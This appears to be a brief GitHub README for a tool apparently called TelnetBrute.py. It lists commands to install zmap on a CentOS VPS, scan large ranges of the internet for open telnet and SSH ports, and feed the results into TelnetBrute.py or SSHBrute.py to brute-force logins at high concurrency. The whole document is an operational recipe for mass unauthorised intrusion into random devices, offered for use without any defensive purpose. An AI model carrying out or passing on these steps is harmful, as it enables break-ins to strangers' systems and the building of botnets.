 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

1- zmap -p23 -o mfu.txt -N 25000   OR   zmap -p23 -o mfu.txt -w example.lst

1,5-- zmap -p22 -o mfussh.txt -w -N 25000 

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutrl.txt 15000 telnettest.txt OR python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



